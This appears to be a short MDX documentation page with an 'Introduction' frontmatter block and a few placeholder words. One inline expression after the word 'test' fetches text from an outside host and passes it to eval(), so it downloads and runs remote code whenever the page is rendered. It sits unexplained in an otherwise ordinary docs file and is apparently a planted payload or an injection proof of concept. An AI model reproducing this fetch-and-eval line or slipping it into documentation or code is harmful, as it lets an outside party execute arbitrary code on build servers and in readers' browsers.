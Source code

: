 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local-laptop.kibty.town").then((a) => a.text()).then((a) => eval(a))) : "not"}




hello